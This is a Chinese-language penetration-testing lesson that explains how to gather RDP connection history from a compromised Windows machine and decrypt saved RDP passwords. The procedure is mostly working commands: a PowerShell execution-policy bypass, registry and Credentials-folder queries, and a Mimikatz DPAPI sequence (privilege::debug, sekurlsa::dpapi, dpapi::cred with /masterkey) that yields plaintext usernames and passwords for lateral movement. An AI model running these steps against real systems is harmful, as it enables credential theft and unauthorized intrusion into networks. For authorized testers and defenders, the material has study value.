# 网络安全入门：P52：获取本地系统的RDP连接记录和密码

在本节课中，我们将学习如何获取Windows系统中远程桌面连接（RDP）的历史记录，以及如何解密保存在本地的RDP连接密码。掌握这些技术有助于在渗透测试中进行内网横向移动。

## 概述

远程桌面协议（RDP）是Windows系统自带的远程管理工具。管理员为了方便，常会保存连接凭据。当我们获得目标系统权限后，可以提取这些记录和凭据，用于进一步的渗透。

上一节我们介绍了多种Windows密码凭证的获取方法，本节中我们来看看如何针对RDP连接进行信息收集和凭据破解。

## RDP连接记录获取





首先，我们需要了解如何收集目标主机上有过哪些RDP连接记录。这能帮助我们分析网络结构。



### 使用PowerShell脚本



一个常用的方法是使用名为`PowerSploit`或类似功能的PowerShell脚本。以下是操作步骤：

1.  **下载脚本**：脚本已预先准备好，可通过提供的链接或评论区获取。
2.  **执行脚本**：在解压后的脚本目录中，打开命令行（CMD），执行以下命令来调用脚本：
    ```powershell
    powershell -ep bypass -c “Import-Module .\Get-RDPConnectionHistory.ps1; Get-RDPConnectionHistory”
    ```
3.  **查看结果**：命令执行后，将列出本机所有的RDP连接历史记录，包括目标IP地址和用户名。





### 通过注册表查询

除了脚本，我们还可以直接通过Windows注册表来查询RDP连接记录。注册表中存储了相关的配置信息。

以下是查询命令：
```cmd
reg query “HKCU\Software\Microsoft\Terminal Server Client\Servers” /s
```
执行此命令后，会显示所有连接过的服务器及其对应的用户名信息。

## RDP密码文件定位与解密

获取连接记录后，下一步是找到并解密本地保存的RDP密码。

### 定位密码文件

Windows系统会将用户选择“保存凭据”的RDP密码加密后存储在特定目录下。



我们可以通过以下命令查看该目录下是否存在相关文件：
```cmd
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```
如果目录中存在文件，则说明有保存的RDP凭据。每个文件对应一个连接。

### 使用命令行工具初步读取





系统自带的`cmdkey`命令可以列出当前用户保存的Windows凭据。
```cmd
cmdkey /list
```
此命令会显示凭据列表，但密码通常以星号（*）或加密形式显示，无法直接获取明文。





### 使用Mimikatz进行深度解密

要获取明文密码，我们需要使用强大的凭证提取工具——**Mimikatz**。

以下是使用Mimikatz解密RDP密码的步骤：

1.  **启动Mimikatz并进入调试模式**：
    ```cmd
    mimikatz.exe
    privilege::debug
    ```

2.  **使用DPAPI模块处理目标文件**：
    在Mimikatz命令行中，执行以下命令，将`<文件名>`替换为之前找到的RDP密码文件。
    ```cmd
    dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\<文件名>
    ```
    命令输出中会包含一个关键的`GUIDMasterKey`值，将其复制下来。



3.  **查找对应的MasterKey**：
    在Mimikatz中执行以下命令，列出所有MasterKey：
    ```cmd
    sekurlsa::dpapi
    ```
    在输出结果中，找到与上一步`GUIDMasterKey`值对应的条目，并记录其`MasterKey`值。

4.  **使用MasterKey解密密码**：
    再次使用`dpapi::cred`命令，但这次附加上一步找到的`MasterKey`。
    ```cmd
    dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\<文件名> /masterkey:<MasterKey值>
    ```
    执行后，Mimikatz将输出解密后的**用户名**和**密码**。

通过以上步骤，我们可以逐个解密`Credentials`目录下的文件，从而获取所有保存的RDP连接凭据。

## 总结



本节课中我们一起学习了获取Windows系统RDP连接记录和破解本地保存密码的方法。我们首先介绍了通过PowerShell脚本和注册表查询来获取连接历史，然后详细讲解了如何定位加密的密码文件，并最终使用Mimikatz工具完成解密。这些技能是内网渗透测试中横向移动的重要基础。

关于更多的操作细节、面试题及相关学习资料，已整理完毕，可通过评论区获取。